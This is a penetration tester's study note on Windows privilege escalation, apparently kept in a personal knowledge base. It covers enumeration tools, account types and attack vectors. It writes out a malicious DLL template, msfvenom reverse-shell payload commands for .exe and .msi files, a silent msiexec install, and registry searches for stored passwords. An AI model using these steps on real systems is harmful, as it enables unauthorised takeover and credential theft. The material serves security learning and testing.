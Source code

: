 tags: #type/theory #tech/OS/windows #tactic/privilege-escalation 

---

## Resources
checklist: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md
info on vectors: https://github.com/sagishahar/lpeworkshop

## useful scripts
**winPEAS**
https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS (is detected by windows defender, best write output to file (winpeas > outfile.txt))
**PowerUp**
https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc (run with `Invoke-AllChecks` to check everything)
**windows exploit suggester**
old version: https://github.com/AonCyberLabs/Windows-Exploit-Suggester (use for old windows versions)
new version: https://github.com/bitsadmin/wesng
1. install on attacker
2. run `windows-exploit-suggester.py –update` on attacker
3. run `systeminfo`  on target and save output to file (`> output.txt`), transfer file to attacker
4. run exploit suggester, eg.`windows-exploit-suggester.py --database 2021-09-21-mssb.xls --systeminfo sysinfo_output.txt`
**meterpreter**
if you have [[3_Tools/Metasploit framework/meterpreter]] shell
use `multi/recon/local_exploit_suggester`
**Seatbelt**
https://github.com/GhostPack/Seatbelt
**BeRoot**
https://github.com/AlessandroZ/BeRoot

# Windows user accounts
**Administrator (local):** This is the user with the most privileges.
**Standard (local):** These users can access the computer but can only perform limited tasks. Typically these users can not make permanent or essential changes to the system. 
**Guest:** This account gives access to the system but is not defined as a user. 
**Standard (domain):** Active Directory allows organizations to manage user accounts. A standard domain account may have local administrator privileges. 
**Administrator (domain):** Could be considered as the most privileged user. It can edit, create, and delete other users throughout the organization's domain. 

**SYSTEM account:** you cant log in, but it is used by services installed on the machine

## method
1. enumerate current user and its privileges [[2_Tech-Specifics/OS/Windows/Privilege Escalation/manual privesc enum]]
2. if possible use enumeration script (winPEAS or PowerUp.ps1)
3. go by checklist

# Vectors
## DLL hijacking
### DLL search order
If **SafeDllSearchMode** is enabled:
1.  directory from which the application loaded.
2.  The system directory. Use the [GetSystemDirectory](https://docs.microsoft.com/en-us/windows/desktop/api/sysinfoapi/nf-sysinfoapi-getsystemdirectorya) to get the path of this directory.
3.  The 16-bit system directory.
4.  The Windows directory. [GetWindowsDirectory](https://docs.microsoft.com/en-us/windows/desktop/api/sysinfoapi/nf-sysinfoapi-getwindowsdirectorya) to get the path
5.  The current directory.
6.  PATH directories. Note that this does not include the per-application path specified by the **App Paths** registry key. The **App Paths** key is not used when computing the DLL search path.

if **SafeDllSearchMode** is disabled:
1. dir where application is loaded
2. current directory
3. system directory
4. 16-bit system directory
5. windows directory
6. PATH directories

for DLL hijack insert malicous DLL in higher position than the legitimate is in
vulnerabilities can only be discorvered with admin privs -> you need a test system

malicious DLL template:
``` 
#include <windows.h>

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved)

{

if (dwReason == DLL_PROCESS_ATTACH) {
system("cmd.exe /k whoami > C:\\Temp\\dll.txt");
ExitProcess(0);
}
return TRUE;

}
``` 
compile with mingw: `x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll`
`sc stop dllsvc & sc start dllsvc`

## unquoted service path
requirements:
1.  Being able to write to a folder on the path
2.  Being able to restart the service

if the path of a service is not provided as absolute path written in quotes, windows will start searching for the binary to run: it will search in every directory contained by the path, starting at the lowest one
-> put malicious .exe file in a directory where windows finds it before the legitimate one

1. find service with unquoted path
`wmic service get name,displayname,pathname,startmode`: to list services, search for unquoted path
2. check privs on path folders: eg. `.\accesschk64.exe /accepteula -uwdq "C:\Program Files\"`
3. generate payload, eg with msfvenom `msfvenom -p windows/x64/shell_reverse_tcp LHOST=[IP] LPORT=[port] -f exe > [executable_name].exe`
4. start/restart service `sc start [service name]`

## Token impersonation
services make requests to higher priviliged service accounts -> man in the middle attack to get a security token to athenticate on the service account
**eg. Hot Potato (alread patched):**
Step 1: The target system uses the Web Proxy Auto-Discovery (WPAD) protocol to locate its update server.  
Step 2: This request is intercepted by the exploit, which sends a response redirecting the target system to a port on 127.0.0.1.  
Step 3: The target system will ask for a proxy configuration file (wpad.dat).  
Step 4: A malicious wpad.dat file is sent to the target.
Step 5: The target system tries to connect to the proxy (now set by the malicious wpad.dat file sent on the previous step).  
Step 6: The exploit will ask the target system to perform an NTLM authentication.  
Step 7: The target system sends an NTLM handshake.  
Step 8: The handshake received is relayed to the SMB service with a request to create a process. This process will have the privilege level of the service targeted, which would typically be "NT AUTHORITY\SYSTEM".

## scheduled tasks
same method as with cronjobs on linux
`schtasks`: query scheduled tasks
eg. `schtasks /query /fo LIST /v`

## Driver
are not updated very often, exploits may be available online
`driverquery`: list installed drivers

## AlwaysInstallElevated
if windows installer files (.msi) always run with elevated privileges, we can create a malicious .msi file and run it on the target system
prerequisites: the following registry options have to be set:
`reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer`  
`reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer`
1. generate payload, eg using [[3_Tools/Metasploit framework/msfvenom]]: `msfvenom -p windows/x64/shell_reverse_tcp LHOST=[IP] LPORT=[PORT] -f msi -o malicious.msi`
2. transfer payload to target
3. start installer: `C:\Users\user\Desktop>msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi`

## Saved Credentials
list credentials that are saved on the system: `cmdkey /list`
try saved credentials: `runas /savecred /user:admin reverse_shell.exe`
query registry keys possibly  containing passwords: `reg query HKLM /f password /t REG_SZ /s`  or `reg query HKCU /f password /t REG_SZ /s`

## local service connections
some services may have network connections to localhost. since they are not cnnected to the outside, they often have weak security configs.
any port that is listening, and not detectable from an outside scan may be vulnerable
`netstat -ano`: list active internal network connection
	`-a`: all active connections and listening ports
	`-n`: no name resolution
	`-o`: show corresponding process id

## installed software
check installed software and search for exploits
